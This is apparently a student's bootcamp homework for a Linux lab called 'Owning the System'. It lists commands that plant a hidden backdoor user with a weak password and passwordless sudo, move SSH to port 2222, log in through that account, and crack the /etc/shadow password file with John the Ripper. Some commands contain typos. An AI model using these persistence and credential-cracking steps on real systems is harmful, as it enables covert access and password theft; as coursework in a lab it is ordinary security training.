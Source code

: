 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `sudo adduser sysd`

![descprition](IMAGE/adduser.png)
    

2. Give your secret user a password: 
    - `1234`
    

3. Give your secret user a system UID < 1000:
    - `sudo usermod -u 888 sysd`
    

4. Give your secret user the same GID:
   - `sudo groupmod -g 888 sysd`

![descprition](IMAGE/UIDGID.png)
    

5. Give your secret user full `sudo` access without the need for a password:
   -  `sudo visudo then in visudo I typed sysd ALL=(ALL:ALL) NOPASSWD:ALL`

    verify no home dir: 

![descprition](IMAGE/nohome.png) 

   

6. Test that `sudo` access works without your password:

    ```bash
    (ALL : ALL) NOPASSWD: ALL
    ```
![descprition](IMAGE/bash.png)


**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```bash
    Port 2222
    ```

![descprition](IMAGE/ruffwater.png)

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `sudo systemcrl restart ssh`

![descprition](IMAGE/listening.png)

2. Exit the `root` account:
    - `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysd@192.168.6.105 -p 2222`

![descprition](IMAGE/loginhacker.png)

4. Use `sudo` to switch to the root user:
    - `sudo su`

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222`

![descprition](IMAGE/loginhacker.png)


2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `john /etc/shadow`

    This was sooooo coooool!

![descprition](IMAGE/john.png)

<br>

this is with --show way cool.

![descprition](IMAGE/waycool.png)

I know it looks like a typo but I ran it again as you can see with shadow not shaow lol.

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

